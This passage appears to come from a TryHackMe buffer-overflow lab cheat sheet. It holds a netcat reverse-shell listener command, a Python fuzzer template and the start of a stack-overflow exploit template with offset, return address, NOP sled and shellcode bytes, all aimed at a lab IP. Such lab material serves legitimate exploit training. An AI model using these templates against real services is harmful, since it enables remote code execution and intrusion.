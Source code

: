 ### Basic Netcat Listener for Reverse Shell:
`nc -nvlp 4444`

[Return to Table of Contents](#toc)

***

<div style="page-break-after: always; visibility: hidden"> \pagebreak </div>

## <a name=fuzzer></a>Python 3 Fuzzer Script Template

{% highlight python %}
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.98.22"

port = 1337
timeout = 5
prefix = "OVERFLOW2 " # This specific input is necessary for the THM room exercises

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
{% endhighlight %}

[Return to Table of Contents](#toc)

***

<div style="page-break-after: always; visibility: hidden"> \pagebreak </div>

## <a name=exploit></a>Python 3 Exploit Script Template

{% highlight python %}
import socket

ip = "10.10.98.22"
port = 1337

prefix = "OVERFLOW2 " # This specific input is necessary for the THM room exercises
offset = 634
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = ("\xfc\xbb\x17\x74\x72\x5e\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xeb\x9c\xf0\x5e\x13"
"\x90\x48\xf4\xd4\x90\x6e\x0a\xd7"
)
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
